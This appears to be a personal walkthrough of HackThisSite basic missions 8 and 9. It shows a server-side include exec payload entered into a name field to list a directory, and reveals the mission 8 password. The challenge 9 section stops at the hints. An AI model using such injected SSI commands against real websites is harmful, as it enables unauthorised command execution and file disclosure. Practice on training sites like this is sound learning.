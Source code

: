 ```
<!-- #exec cmd = "ls ../" -->
```

Then the website throws this at me:

```
If you are trying to use server side includes to solve the challenge, you are on the right track: but I have limited the commands allowed to ones relevant towards finding the password file for security reasons(because there will always be that one person who decides to execute some rather nasty commands). So please manipulate your code so that it is a little more pertaining to the level.
```

So, I do a little more google'n and I then decide to take out the spaces:

```
<!--#exec cmd="ls ../"-->
```

Cool, I get that redirect now instead of an error!

```
Your file has been saved. Please click here view the file.
```

So, I click it!

```
Hi, au12ha39vc.php index.php level8.php tmp!

Your name contains 39 characters.
```

Bingo! The server side injection worked!

So, I travel to:

```
https://www.hackthissite.org/missions/basic/8/au12ha39vc.php
```

And then I get the password:

```
a6ef4250
```

---

## Challenge 9

So, we're give a few hints for this challenge which is rather nice: "he's determined to keep obscuring the password file, no matter how many times people manage to recover it", "saved in /var/www/hackthissite.org/html/missions/basic/9/", "limit people to using server side includes to display the directory listing to level 8 only, I have mistakenly screwed up somewhere..", "level seems a lot trickier then it actually is", "script finds the first occurance of '<--', and looks to see what follows directly after it" ...

Ok, so that's a lot -- I wonder if 1. the previous ssi is going to work, and 2. if it's just more directory traversals.
